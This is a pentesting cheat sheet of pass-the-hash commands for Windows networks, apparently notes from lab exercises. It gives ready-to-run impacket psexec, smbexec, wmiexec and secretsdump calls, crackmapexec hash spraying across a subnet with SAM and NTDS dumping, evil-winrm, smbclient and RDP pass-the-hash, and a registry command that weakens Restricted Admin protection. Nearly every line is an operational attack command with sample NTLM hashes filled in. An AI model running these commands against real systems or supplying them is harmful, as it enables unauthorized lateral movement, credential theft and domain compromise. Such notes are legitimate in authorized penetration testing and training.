 https://www.n00py.io/2020/12/alternative-ways-to-pass-the-hash-pth/
https://meriemlarouim.medium.com/pass-the-hash-gaining-access-without-cracking-passwords-ce67c267c491

# PSExec
```bash
impacket-psexec corp.com/dave@192.168.196.248 -hashes :56e4633688c0fdd57c610faf9d7ab8df
```

-----------------------

# SMBExec
```bash
impacket-smbexec relia/dan@192.168.196.248 -hashes :4b22394fc907bd7a74d1af6cc9aca348
```

-----------------------

# WMIexec
```bash
impacket-wmiexec relia/dan@192.168.196.248 -hashes :4b22394fc907bd7a74d1af6cc9aca348
```

-----------------------

# RDP
```bash
# Activate from shell
impacket-psexec corp.com/dave@192.168.214.75 -hashes :08d7a47a6f9f66b97b1bae4178747494
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f

# Activate remote
smb 10.0.0.200 -u Administrator -H 8846F7EAEE8FB117AD06BDD830B7586C -x 'reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f'

# Pass the hash
xfreerdp /cert-ignore /u:dave /d:corp.com /pth:08d7a47a6f9f66b97b1bae4178747494 /v:192.168.214.75
```

-----------------------

# CRACKMAPEXEC
```bash
crackmapexec smb 192.168.196.0/24 -u dmzadmin -H ae78a6fea976b71e09e990b903020af6 --continue-on-success
crackmapexec winrm 192.168.196.0/24 -u dmzadmin -H ae78a6fea976b71e09e990b903020af6 --continue-on-success
crackmapexec winrm 192.168.196.10 -u user -H ae78a6fea976b71e09e990b903020af6 --hashes --sam --ntds
```

-----------------------

# EVIL-WINRM
```bash
evil-winrm -i 10.0.0.20 -u user -H BD1C6503987F8FF006296118F359FA79
```

-----------------------

# SMBCLIENT
```bash
smbclient //10.0.0.30/Finance -U user --pw-nt-hash BD1C6503987F8FF006296118F359FA79 -W domain.local
```

-----------------------



# SECRETSDUMP
```bash
impacket-secretsdump ituser@10.0.0.40 -hashes aad3b435b51404eeaad3b435b51404ee:BD1C6503987F8FF006296118F359FA79
```

-----------------------

